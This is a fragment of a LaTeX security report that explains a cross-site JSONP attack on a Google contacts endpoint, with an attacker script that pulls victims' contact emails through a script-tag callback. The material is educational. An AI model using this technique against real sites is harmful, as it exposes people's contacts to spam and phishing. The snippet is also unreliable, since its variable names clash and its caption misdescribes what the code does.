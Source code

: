 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
\begin{figure}[h!t]
  \begin{multicols}{2}
  \begin{verbatim}
google ({
    Success: true,
    Errors: [],
    Body: {
        AuthToken: {
            Value: '*****'
        },
        Contacts: [
        {
            Id: '***',
            Email: 'foo@gmail.com',
            Affinity: '***',
            Groups: [
            {
                id: '^Freq',
                value: '***'
            }
            ],
            Addressess: [],
            Phoness: [],
            Imss: []
        }, {}, {}, ...
        // Lots more contacts here
        ]
    }
});
  \end{verbatim}
  \end{multicols}
  \caption{The JavaScript callback function that returned a data structure (object) with all email contacts~\cite{oreilly}.}
  \label{figure:callback_js}
\end{figure}
  
  As you can see in Figure~\ref{figure:callback_js}, several fields were accessible. The affinity field told the attacker how important 
  the contact was to that user, making it a more vulnerable target for phishing attempts~\cite{oreilly}. 
  
  \begin{figure}[h!t]
  \begin{verbatim} 
<script type="text/javascript">
    function google(data){
        var emails, i;
        for (i = 0; i < data.Body.Contacts.length; i++) {
            mails += "<li>" + data.Body.Contacts[i].Email + "";
        }
        document.write("<ol>" + emails + "</ol>");
    }
</script>

<script type="text/javascript" 
        src="http://docs.google.com/data/contacts?out=js&show=ALL&psort=Affinity
             &callback=google&max=99999"></script>
  \end{verbatim}
  \caption{A simple JavaScript that calls the function in Figure~\ref{figure:callback_js} and writes the received data to a file.}
  \label{figure:callback}
  \end{figure}
  
  The code in Figure~\ref{figure:callback} does a very basic operation. The attacker could as well send the data to 
  another program that would for instance spam all contacts in the list or creating network connections for better 
  relevance in phishing attempts.
  
\end{document}
